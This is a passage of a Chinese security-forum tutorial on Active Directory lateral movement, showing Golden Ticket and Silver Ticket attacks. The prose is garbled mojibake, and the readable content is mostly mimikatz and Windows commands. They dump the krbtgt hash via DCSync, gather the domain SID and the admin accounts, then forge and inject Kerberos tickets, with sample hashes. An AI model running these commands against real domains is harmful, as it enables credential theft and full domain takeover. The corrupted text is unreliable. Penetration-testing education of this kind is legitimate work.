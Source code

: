 ## [](https://bbs.pediy.com/thread-268289.htm)4.2 Golder ticket

Golder ticketä½¿ç¨krbtgtè´¦æ·çå¯ç hashå¼ï¼å©ç¨ä¼ªé
é«æéçTGTåKDCè¦æ±é¢åæ¥æä»»ææå¡è®¿é®æéçç¥¨æ®ï¼ä»èè·å¾åæ§æéãå¨åç¯å¢ä¸­ï¼æ¯ä¸ªè´¦æ·çç¥¨æ®é½æ¯Krbtgtçæçï¼å½æ»å»è
å¾å°krbtgt hashæAES256å¼åï¼æä»¬å°±å¯ä»¥ä¼ªé
ä»»ä¸åç¨æ·çèº«ä»½ï¼å¹¶ç¨è¯¥èº«ä»½è¿è¡è®¿é®ãä¼ªé Golder
ticketå©ç¨æ¡ä»¶ï¼  
1ãkrbtgtç¨æ·hashæAES256å¼  
2ãååç§°  
3ãåçSIDå¼  
4ãè¦ä¼ªé çç®¡çåå



ä¸é¢æ¯å ·ä½æä½ï¼  
Privilege::debug  
æ§è¡å¯¼åºkrbtgt hashå½ä»¤ Lsadump::dcsync /domain:test.com /user:krbtgt  
è·å¾hashå¼ï¼71204258ec5b715c29f6c8ee40a0c20d  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_4UP5DTPSTDQVR2C.png)  
è·ååSID  
Wmic useraccount get name,sid  
S-1-5-21-2273191065-1635484360-3888421177-500  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_27BNPRH4UPB23B5.png)  
æ¥è¯¢åç®¡çåè´¦æ· net group âdomain adminsâ /domain  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_43NUMK844CTJ333.png)  
è·å¾åå ipconfig /all  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_TVUEF5YTN7MHHHQ.png)  
Kerberos::purgeæ¸ ç©ºç¥¨æ®ï¼ç¶åä½¿ç¨ä¸é¢å½ä»¤çækrbtgtçç¥¨æ®  
kerberos::golden /user:Administrator /domain:test.com
/sid:S-1-5-21-2273191065-1635484360-3888421177-500
/krbtgt:71204258ec5b715c29f6c8ee40a0c20d /ticket:krbtgt. kiribi  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_DUG83D24NKGRYJK.png)  
kerberos::ptt krbtgt.kiribi æçæçç¥¨æ®éæ°å¯¼å ¥å å­  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_XDESX2R64QHBK5V.png)  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_8NHUSX7QQSGJFZP.png)

## [](https://bbs.pediy.com/thread-268289.htm)4.3 Silver Ticket

Silver Ticketä¼éè¿ç¸åºçæå¡è´¦æ·æ¥ä¼ªé
TGSï¼ä¾å¦LDAPãMSSQLãWinRMãCIFSç­ï¼èå´ç¸å¯¹æéï¼åªè½è·åå¯¹åºæå¡æéï¼ä¸Silver
Ticketæ¯ç±ç¹å®çè´¦æ·å å¯çãå©ç¨æ¡ä»¶ï¼  
1ãåå  
2ãåSID  
3ãç®æ æå¡å¨çFQDN  
4ãå¯å©ç¨çæå¡  
5ãæå¡è´¦å·çNTLM Hash  
6ãéè¦ä¼ªé çç¨æ·å  
ä¸é¢è¿è¡ç¸åºçæä½ï¼  
å æ¸ ç©ºç³»ç»ä¸­çç¥¨æ® ï¼  
Kerberos::purge  
ä½¿ç¨mimikatzçæä¼ªé ç Silver Ticket ï¼  
kerberos::golden /user:Administrator /domain:test.com
/sid:S-1-5-21-2273191065-1635484360-3888421177-500 /target:WIN-
MPPGQR2OWEC.test.com /service:cifs /rc4:fac5d668099409cb6fa223a32ea493b6
/user:c3 /ptt  